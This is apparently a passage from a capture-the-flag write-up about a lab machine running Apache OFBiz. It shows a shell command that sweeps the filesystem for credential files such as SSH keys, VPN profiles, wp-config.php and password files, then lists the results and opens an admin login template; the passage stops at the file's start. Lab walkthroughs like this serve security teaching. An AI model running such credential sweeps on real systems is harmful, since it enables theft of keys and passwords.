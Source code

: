 ```bash
ofbiz@bizness:/opt/ofbiz$ inames=("*.ovpn" ".ssh" "app.js" "id_rsa*" "db_connect" "db_config.php" "database_settings*" "amportal.conf" "tomcat-users.xml" "config.php" "db.php" ".config" "*[Aa]dmin*" "configuration.php" ".secret" ".passwd" "wp-config.php")
ofbiz@bizness:/opt/ofbiz$ find / \( -iname "${inames[0]}" $(printf ' -o -iname %s' "${inames[@]:1}") \) 2> /dev/null
/usr/share/bash-completion/completions/list_admins
/usr/share/bash-completion/completions/mysqladmin
/usr/share/bash-completion/completions/_svnadmin
/opt/ofbiz/applications/accounting/servicedef/services_admin.xml
/opt/ofbiz/applications/accounting/groovyScripts/admin
/opt/ofbiz/applications/accounting/groovyScripts/admin/AcctgAdminServices.groovy
/opt/ofbiz/applications/accounting/minilang/test/AutoAcctgAdminTests.xml
/opt/ofbiz/applications/product/template/product/EditProductQuickAdmin.ftl
/opt/ofbiz/applications/product/groovyScripts/catalog/product/EditProductQuickAdmin.groovy
/opt/ofbiz/framework/start/src/main/java/org/apache/ofbiz/base/start/AdminClient.java
/opt/ofbiz/framework/start/src/main/java/org/apache/ofbiz/base/start/AdminServer.java
/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-PostgreSQL.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-Oracle.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-Derby.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-MySQL.xml
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/solr/webapp/OFBizSolrLoadAdminUiServlet.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer$OfbizSocketCommand.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer$1.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminClient.class
/opt/ofbiz/plugins/solr/webapp/solr/admin.html
/opt/ofbiz/plugins/solr/webapp/solr/js/scripts/app.js
/opt/ofbiz/plugins/solr/webapp/solr/js/angular/app.js
/opt/ofbiz/plugins/solr/src/main/java/org/apache/ofbiz/solr/webapp/OFBizSolrLoadAdminUiServlet.java
/opt/ofbiz/plugins/solr/home/solrdefault/conf/admin-extra.menu-top.html
/opt/ofbiz/plugins/solr/home/solrdefault/conf/admin-extra.html
/opt/ofbiz/plugins/solr/home/solrdefault/conf/admin-extra.menu-bottom.html
/opt/ofbiz/plugins/lucene/template/AdminSearch.ftl
/proc/sys/vm/admin_reserve_kbytes
```

After carefully searching some of those files, we find that the file the `/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml` has some interesting content :

```xml
ofbiz@bizness:/opt/ofbiz$ cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
```